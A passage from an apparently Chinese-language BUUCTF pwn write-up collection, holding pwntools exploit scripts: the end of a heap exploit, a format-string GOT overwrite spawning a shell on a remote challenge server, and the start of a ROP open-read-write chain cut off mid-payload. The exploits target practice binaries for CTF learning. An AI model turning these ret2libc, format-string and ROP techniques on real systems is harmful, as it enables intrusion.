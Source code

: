 ```py
free = u64(io.recv(6) + b'\x00\x00')
print(hex(free))
libc = LibcSearcher('free', free)
base = free - libc.dump('free')
print(hex(base))
system = base + libc.dump('system')
edit_heap(0, p64(system))
delete_heap(1)
io.interactive()
```

# buu077-wdb_2018_2nd_easyfmt
这题在bugku上也有，好像是叫pwn07，简单的格式化字符串漏洞，不多解释了。
```py
from pwn import *
from LibcSearcher import *
context(arch='i386', os='linux', log_level='debug')

elf = ELF('./pwn')

io = remote('node4.buuoj.cn', 29596)
# io = process('./pwn')
io.recvuntil(b'Do you know repeater?\n')

payload1 = p32(elf.got['read']) + b'%6$s'
io.send(payload1)

mem_read_addr = u32(io.recv()[4:8])

libc = LibcSearcher('read', mem_read_addr)
libc_base = mem_read_addr - libc.dump('read')
mem_sys_addr = libc_base + libc.dump('system')
mem_printf_addr = libc_base + libc.dump('printf')

payload2 = fmtstr_payload(6, {elf.got['printf']: mem_sys_addr}, write_size = 'byte')
io.send(payload2)
io.interactive()	# choose 3rd of libc
```

# buu078-PicoCTF_2018_can-you-gets-me
静态编译的32位程序，没有system函数和字符串/bin/sh，因此通过orw方式读取flag。
```py
from pwn import *
context.log_level = 'debug'

# io = process('./PicoCTF_2018_can-you-gets-me')
io = remote('node4.buuoj.cn', 27340)
elf = ELF('./PicoCTF_2018_can-you-gets-me')

pop4 = 0x809d6f4
write_addr = 0x80EBD20

payload = cyclic(0x18 + 4)
payload += p32(elf.symbols['read'])
payload += p32(pop4)
payload += p32(0)
payload += p32(write_addr)
payload += p32(5)
payload += p32(0)
payload += p32(elf.symbols['open'])
payload += p32(pop4)
```